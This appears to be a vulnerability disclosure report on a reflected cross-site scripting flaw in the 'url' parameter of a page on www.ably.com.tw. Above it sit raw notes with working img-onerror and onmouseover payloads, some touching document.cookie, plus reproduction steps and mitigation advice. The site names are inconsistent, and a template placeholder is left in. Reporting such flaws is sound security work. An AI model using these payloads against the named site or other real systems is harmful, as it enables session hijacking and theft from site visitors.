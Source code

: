site: http://www.ably.com.tw/pdt/vpics.asp?url=%3Cimg%20src/onerror=prompt(dcoument.cookie)%3E
payload confirmed xss

<img src/onerror=prompt(8)>


>
<a onmouseover="alert(document.cookie)">xxs link</a>

<img src=foo.png onerror=alert(/xssed/) />




https://ably.com/disclosure



### XSS Vulnerability Report

**Title:** Reflected XSS Vulnerability in `http://ably.com./`

**Summary:** A reflected Cross-Site Scripting (XSS) vulnerability exists in the `http://ably.com.tw` website. The vulnerability allows an attacker to inject arbitrary JavaScript code into the web page, which is executed in the context of the victim’s browser. This could lead to session hijacking, phishing attacks, or other malicious activities.

**Vulnerability Details:**

- **URL Affected:** `http://www.ably.com.tw/pdt/vpics.asp?url=`
- **Parameter Affected:** `url`
- **Vulnerability Type:** Reflected XSS

**Steps to Reproduce:**

1. **Navigate to the following URL:**
    
    
    `http://www.ably.com.tw/pdt/vpics.asp?url=%3Cimg%20src=foo.png%20onerror=alert(/xssed/)%20/%3E`
    
2. **Observe the following behavior:**
    
    - A JavaScript `alert` with the text "xssed" will be displayed in the browser, confirming that the input is being executed as script code.
  3. Payload used
      <img src=foo.png onerror=alert(/xssed/) />


**Impact:**

- **Session Hijacking:** The attacker can steal session cookies or tokens.
- **Phishing:** The attacker can redirect the user to a malicious website.
- **Content Modification:** The attacker can modify the content of the page to mislead users.
- **Data Theft:** The attacker can steal sensitive information from the victim.

**Mitigation Recommendations:**

1. **Sanitize User Input:**
    
    - Ensure that all user inputs are properly sanitized before processing. Remove or escape characters that could be interpreted as HTML or JavaScript.
2. **Encode Output:**
    
    - Encode all user-supplied data before rendering it in the browser. Use HTML entity encoding for special characters.
3. **Implement Content Security Policy (CSP):**
    
    - Use a CSP to limit the sources from which scripts can be executed.
4. **Use Security Headers:**
    
    - Ensure that HTTP headers like `X-Content-Type-Options`, `X-XSS-Protection`, and `Strict-Transport-Security (HSTS)` are correctly configured.

**Proof of Concept (PoC):**

Include a screenshot or video of the XSS alert, showing the vulnerability in action.

**Severity:**  High  

**References:**

- OWASP XSS Prevention Cheat Sheet
- CSP Evaluator Tool

**Reported By:** Rohit Tiwari

